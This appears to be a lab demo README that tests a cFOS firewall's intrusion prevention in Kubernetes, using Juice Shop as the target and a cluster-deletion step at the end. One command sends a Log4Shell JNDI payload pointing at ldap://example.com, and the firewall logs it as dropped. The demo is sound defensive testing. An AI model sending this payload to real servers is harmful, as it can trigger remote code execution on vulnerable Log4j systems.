 ```bash
k get pod -n backend
NAME                     READY   STATUS    RESTARTS   AGE
diag2-7f9768dc5d-vxbbz   1/1     Running   0          22m
```

### send test traffic from clientpod to juiceshop

```bash
kubectl exec -it diag2-7f9768dc5d-vxbbz --namespace backend -- bash -c "curl -s -I --max-time 5 http://juiceshop-service.security.svc.cluster.local:3000/"
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
X-Recruiting: /#/jobs
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Thu, 24 Apr 2025 00:49:35 GMT
ETag: W/"138f5-19665458058"
Content-Type: text/html; charset=UTF-8
Content-Length: 80117
Vary: Accept-Encoding
Date: Thu, 24 Apr 2025 01:12:08 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

### send ips attack traffic from clientpod to juiceshop
```bash

kubectl exec -it diag2-7f9768dc5d-vxbbz --namespace backend -- bash -c 'curl -s -I --max-time 5 -H "User-Agent: \${jndi:ldap://example.com/a}" cfostest-headless.default.svc.cluster.local:3000'

```

### check cFOS log 

```bash
kubectl exec -it po/cfos7210250-deployment-new-75ddb9dbf4-fjgv8 -c cfos -- tail -n -1 /var/log/log/ips.0
date=2025-04-24 time=00:56:41 eventtime=1745456201 tz="+0000" logid="0419016384" type="utm" subtype="ips" eventtype="signature" level="alert" severity="critical" srcip=10.140.0.16 dstip=10.144.10.73 srcintf="eth0" dstintf="eth0" sessionid=5 action="dropped" proto=6 service="HTTP" policyid=10 attack="Apache.Log4j.Error.Log.Remote.Code.Execution" srcport=42194 dstport=3000 hostname="cfostest-headless.default.svc.cluster.local" url="/" direction="outgoing" attackid=51006 profile="default" incidentserialno=161480707 msg="apache: Apache.Log4j.Error.Log.Remote.Code.Execution"
```

### full demo with script
```
./cfosdemo.sh  demo
```

### delete cluster

```bash
gcloud container clusters delete my-first-cluster-1 --zone us-central1-a 
```
